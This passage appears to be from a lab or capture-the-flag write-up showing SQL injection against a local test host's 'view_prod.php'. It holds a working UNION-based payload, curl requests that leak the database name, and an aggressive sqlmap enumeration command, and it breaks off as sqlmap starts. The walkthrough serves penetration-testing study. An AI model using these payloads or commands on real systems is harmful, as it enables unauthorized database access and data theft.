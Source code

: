 ```
    Payload: id=-8935 UNION ALL SELECT NULL,NULL,CONCAT(0x717a716a71,0x49597256545453557955456f627a547470514a714a7863454447667752675a6d43656a4459517579,0x716a706271),NULL,NULL,NULL,NULL-- - ←
---
do you want to exploit this SQL injection? [Y/n] 

[11:10:42] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL 5 (MariaDB fork) ←
SQL injection vulnerability has already been detected against '192.168.56.127'. Do you want to skip further tests involving it? [Y/n] 

[...]
```

`curl -G --data-urlencode "id=-8935 UNION ALL SELECT NULL,NULL,CONCAT(0x717a716a71,0x49597256545453557955456f627a547470514a714a7863454447667752675a6d43656a4459517579,0x716a706271),NULL,NULL,NULL,NULL-- -" "http://192.168.56.127/view_prod.php"`:
```
<div class="container-fluid">

        <div class="card ">
        <img src="assets/img/" class="card-img-top" alt="...">
        <div class="card-body">
          <h5 class="card-title">qzqjqIYrVTTSUyUEobzTtpQJqJxcEDGfwRgZmCejDYQuyqjpbq</h5> ←
          <p class="card-text truncate"></p>
          <div class="form-group">
          </div>

[...]
```

`curl -G --data-urlencode "id=-8935 UNION ALL SELECT NULL,NULL,database(),NULL,NULL,NULL,NULL-- -" "http://192.168.56.127/view_prod.php"`:
```
<div class="container-fluid">

        <div class="card ">
        <img src="assets/img/" class="card-img-top" alt="...">
        <div class="card-body">
          <h5 class="card-title">fos</h5> ←
          <p class="card-text truncate"></p>
          <div class="form-group">
          </div>

[...]
```

`sqlmap -u "http://192.168.56.127/view_prod.php?id=1" --technique=U --dbms=mysql --tables --level=5 --risk=3 --threads=10 --time-sec=2 --text-only --dbs --exclude-sysdbs --batch`:
```
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:18:56 /2024-09-26/

[11:18:56] [INFO] testing connection to the target URL
```